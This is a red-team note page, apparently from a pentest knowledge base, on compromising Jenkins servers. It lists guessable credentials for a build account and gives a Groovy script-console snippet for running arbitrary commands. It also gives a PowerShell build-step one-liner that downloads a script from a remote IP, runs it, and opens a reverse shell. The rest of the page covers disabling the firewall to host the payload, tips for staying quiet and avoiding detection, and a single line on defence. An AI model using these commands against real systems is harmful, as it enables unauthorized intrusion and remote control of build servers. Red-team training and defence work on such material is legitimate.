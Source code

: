 If you you see a user like `builduser` in the user list try the following credentials
```
    builduser: <null>
    builduser:builduser
    builduser:resudilub
    builduser:resudilub!
```

With Jenkins Admin creds you can go to `/script` and run the following
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

**No Admin creds, but can add or edit build steps in the build configuration**.
	1. Project0 (or any)
	2. Configure
	3. Add Build Step
		1. Execute Windows Batch Command

Add a "Execute Windows Batch command" build step and catch a reverse shell
```powershell
powershell.exe iex(iwr http://172.16.100.48/Invoke-PowerShellTcp.ps1 -useb);power -Reverse -IPAddress 172.16.100.48 -Port 443
```

1. Create a local firewall rule to allow the hosting of a webserver
	1. Or turn it off
2. Host the web server using HFS or python

**In real redteam engagements don't drop a reverse shell or even the stage 1 payload. Start off with a stage zero payload that beacons and quietly enumerates to see if the target is heavily protected**


> [!NOTE] **IMPORTANT**
> `whoami` and `hostname` is very noisy
> use `$env:Username` and `ls env:` instead

One way to protect an enterprise application is to expose it to the internet via a Azure Proxy, make everyone authenticate using Entra ID and use a whitelist for people allowed to use it